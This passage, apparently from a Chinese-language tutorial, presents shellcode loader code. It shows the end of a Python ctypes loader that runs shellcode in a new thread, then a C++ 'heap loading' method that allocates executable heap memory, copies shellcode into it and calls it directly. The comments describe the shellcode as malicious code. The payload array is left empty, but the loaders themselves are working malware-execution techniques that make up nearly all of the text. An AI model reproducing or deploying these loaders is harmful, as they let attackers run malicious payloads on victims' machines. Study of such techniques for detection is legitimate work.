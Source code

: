 ```python
   ctypes.c_int(len(shellcode))
)

#使用CreateThread函数创建一个线程从Shellcode的起始地址开始执行此段内存空间的内容
handle= ctypes.windll.kernel32.CreateThread(
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.c_uint64(ptr),
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.pointer(ctypes.c_int(0))
)

#通过WaitForSingleObject函数来等待执行结束
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
```



# 4.通过堆加载

这段代码首先创建了一个具有执行权限的堆，然后在堆中分配内存并将shellcode复制到内存中。最后，代码通过直接调用存储在内存中的shellcode来执行它

```cpp
#include <Windows.h>

// 定义 shellcode（恶意代码）
unsigned char shellcode[] = "";

// 主函数
void main() {
    // 创建一个具有执行权限的堆，以存储shellcode
    HANDLE HeapHandle = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, sizeof(shellcode), 0);

    // 在创建的堆中分配一块内存，并将其地址赋给buffer
    char* buffer = (char*)HeapAlloc(HeapHandle, HEAP_ZERO_MEMORY, sizeof(shellcode));

    // 将shellcode复制到buffer指向的内存中
    memcpy(buffer, shellcode, sizeof(shellcode));

    // 下面是另一种创建线程的方法，这里被注释掉了
    // 创建一个新线程并执行buffer指向的内存中的shellcode
    // HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)buffer, NULL, 0, NULL);

    // 等待新线程执行完毕
    // WaitForSingleObject(hThread, INFINITE);

    // 将buffer指向的内存地址强制转换为一个函数指针，并调用该函数，执行shellcode
    ((void(*)(void)) buffer)();
}

```
